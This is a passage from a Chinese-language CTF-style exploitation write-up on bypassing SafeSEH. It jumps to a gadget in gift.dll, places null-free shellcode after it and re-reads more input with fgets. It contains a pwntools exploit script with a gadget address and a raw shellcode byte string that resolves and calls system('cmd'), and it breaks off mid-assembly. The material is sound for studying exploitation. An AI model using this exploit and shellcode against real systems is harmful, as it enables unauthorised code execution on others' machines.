 那么我们就可以通过写入跳转指令来使程序跳转到 `gift.dll` 中从而绕过 `safeSEH` 的检测

通过观察栈发现有一个是我们可以覆盖其指向的内存的栈地址`0019FF64`，也就是我们覆盖`__except_handler4`的位置的上方，可以利用这个 gadget 来实现跳到对应位置上

[![](assets/1707953973-4c071f6be398e648c6c0f2cff8c1cabe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205192932-d571f090-c419-1.png)

然后因为`gift.dll`没有`\x00`字节，所以我们可以在其后方布置`shellcode`，四字节 shellcode 可以用如下方式跳转到后面

```bash
jmp_8 = asm("jmp $+8")
```

这样就可以直接跳到后面去了

但是 getshell 所需要的字符量太大了，例如用 `kali` 的 `msfvenom` 生成的 `shellcode` 至少需要 200 余个字节，我们一次也就只能输入 200 字节

所以还要用 reread 的思想，再构造一个 fget 输入足量的字节到对应地址即可

当然要注意 shellcode 中不能有\\x00 字节

所以脚本如下：

```bash
from pwn import * 

pop2 = 0x271f16ac #: pop ecx ; pop ebp ; ret
#context.log_level='debug'
context.arch='i386'
p = remote("127.0.0.1",1234)

shell = b'U\x8b\xec\x83\xec SVW\xc7E\xe8u\x00c\x00\xc7E\xecr\x00t\x00f\xc7E\xfccm\xc6E\xfed\xc7E\xe0systf\xc7E\xe4em\xc6E\xe6\x00d\xa10\x00\x00\x00\x83\xc0\x0c\x8b\x00\x89E\xf8\x8b}\xf8\x83\xc7\x14\x8b\x17;\xd7t8\x8dd$\x00\x8br(\x8dM\xe83\xc0+\xf1\x8d\x9b\x00\x00\x00\x00\x8d\x0cFf\x8bL\r\xe8f;LE\xe8u\x06@\x83\xf8\x04|\xeb\x83\xf8\x04\x0f\x84\x82\x00\x00\x00\x8b\x12;\xd7u\xcc\x8b}\xf8\x8bG<3\xf6\x8b\\8x\x8bD;\x1c\x03\xdf\x03\xc7\x89E\xf0\x8bK \x8bC$\x03\xcf\x03\xc7\x89M\xec\x89E\xf49s\x18vI\x8b\x14\xb1\x8dE\xe0\x03\xd73\xc9+\xd0\x8dd$\x00\x8d\x04\x11\x8aD\x05\xe0:D\r\xe0u\x06A\x83\xf9\x06|\xed\x83\xf9\x06u\x18\x8bM\xf0\x8dE\xfcP\x8bE\xf4\x0f\xb7\x04p\x8b\x04\x81\x03\xc7\xff\xd0\x83\xc4\x04\x8bM\xecF;s\x18r\xb7_^[\x8b\xe5]\xc3\x8bz\x10\xeb\x82'

assert(b'\n' not in shell)

# eip = p32(0x62616167)
# payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
# offset = cyclic_find(payload,eip)
# success('offset : ' + hex(offset))

shellcode = '''
    mov ecx,0x01010101
    mov eax,0x14121bd           /*__acrt_iob_func*/
    xor eax,ecx 
    mov ebx,[eax]
    xor ecx,ecx
    push ecx
    call ebx
    pop ecx

    push eax

    mov ecx,0x01010101          /*fgets*/
    push ecx

    xor eax,eax
```